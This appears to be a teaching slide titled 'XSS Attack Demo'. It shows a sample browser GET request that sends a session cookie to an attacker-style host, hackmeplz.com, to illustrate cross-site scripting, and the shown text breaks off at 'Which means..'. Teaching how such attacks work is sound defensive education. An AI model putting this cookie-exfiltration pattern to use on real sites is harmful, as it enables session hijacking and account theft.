

# XSS Attack Demo
Your browser is going to make this request:
GET https://hackmeplz.com/yourCookies.png/?cookies=SessionID=123412341234
Which means..